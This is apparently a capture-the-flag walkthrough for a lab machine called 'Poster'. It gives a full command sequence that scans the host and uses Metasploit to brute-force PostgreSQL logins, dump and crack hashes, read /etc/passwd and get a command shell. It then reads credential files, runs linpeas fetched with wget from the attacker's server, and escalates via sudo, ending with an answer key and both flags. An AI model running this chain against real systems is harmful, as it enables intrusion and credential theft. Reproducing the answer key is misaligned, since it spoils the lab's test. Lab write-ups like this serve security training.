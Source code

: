 # Poster - Easy

```shell
nmap -T4 -p- -A -v 10.10.32.69

msfconsole -q

search postgresql

use auxiliary/scanner/postgres/postgres_login

options

set RHOSTS 10.10.32.69

run
#gives creds

search postgresql

use auxiliary/admin/postgres/postgres_sql

options

set PASSWORD password

set RHOSTS 10.10.32.69

run
#gives version of postgresql

search postgres hash

use auxiliary/scanner/postgres/postgres_hashdump

options

set PASSWORD password

set RHOSTS 10.10.32.69

run
#dumps hashes

#crack the hashes
vim hashes.txt

hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/kaonashi.txt

#in msfconsole
search postgres

use auxiliary/admin/postgres/postgres_readfile

options

set RHOSTS 10.10.32.69

set PASSWORD password

run
#prints /etc/passwd

search postgres command

use exploit/multi/postgres/postgres_copy_from_program_cmd_exec

options

set LHOST 10.14.31.212

set PASSWORD password

set RHOSTS 10.10.32.69

run
#we get command shell

whoami
#postgres

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls -la /home

ls -la /home/dark

cat /home/dark/credentials.txt
#we get creds for dark

#in another tab
ssh dark@10.10.32.69

cd /tmp

#get linpeas from attacker machine python server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ls -la /var/www/html

cat /var/www/html/config.php
#we get alison creds

su alison

cd
#get user flag

sudo -l
#we can run all commands as all users

cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18
  * 5432 - postgresql - PostgreSQL DB

* We can begin enumeration of ```postgresql``` on port 5432 - we can search Metasploit for any related modules.

* We can use the module for postgresql login utility - configuring and running this module gives us creds.

* We can again search for a module which allows us to login into this service with creds.

* Running the required module gives us the version of the postgresql service on victim machine.

* Now, we need to check for modules which can dump hashes from the service.

* Running the required module dumps MD5 hashes for 6 users, we can crack these hashes using ```hashcat```

* We are able to crack passwords for 4 out of 6 users.

* We can use the Metasploit module to read files using authenticated users.

* Running the module prints out '/etc/passwd' - this includes the user 'dark'.

* Now, we need to search for modules related to postgresql that allow us command execution.

* Running the module with creds 'postgres:password', we are able to get a command shell session.

* We need to check for privesc now - we can check the users' home directories.

* From dark's home directory, we get creds - now we can log into SSH using this.

* Once we log into SSH, we can check for privesc using ```linpeas.sh```.

* We can check the web directory /var/www/html - this contains a config file.

* This file contains creds for alison - we can now login as alison.

* After getting user flag, we can check ```sudo -l``` - this shows we can run all commands as all users, so we can print root flag as sudo.

```markdown
1. What is the rdbms installed on the server? - postgresql

2. What port is the rdbms running on? - 5432

3. After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the module? - auxiliary/scanner/postgres/postgres_login

4. What are the credentials you found? - postgres:password

5. What is the full path of the module that allows you to execute commands with the proper user credentials? - auxiliary/admin/postgres/postgres_sql

6. What is the rdbms version installed on the server? - 9.5.21

7. What is the full path of the module that allows for dumping user hashes? - auxiliary/scanner/postgres/postgres_hashdump

8. How many user hashes does the module dump? - 6

9. What is the full path of the module that allows an authenticated user to view files of their choosing on the server? - auxiliary/admin/postgres/postgres_readfile

10. What is the full path of the module that allows arbitrary command execution with the proper user credentials? - exploit/multi/postgres/postgres_copy_from_program_cmd_exec

11. Compromise the machine and locate user.txt - THM{postgresql_fa1l_conf1gurat1on}

12. Escalate privileges and obtain root.txt - THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
```
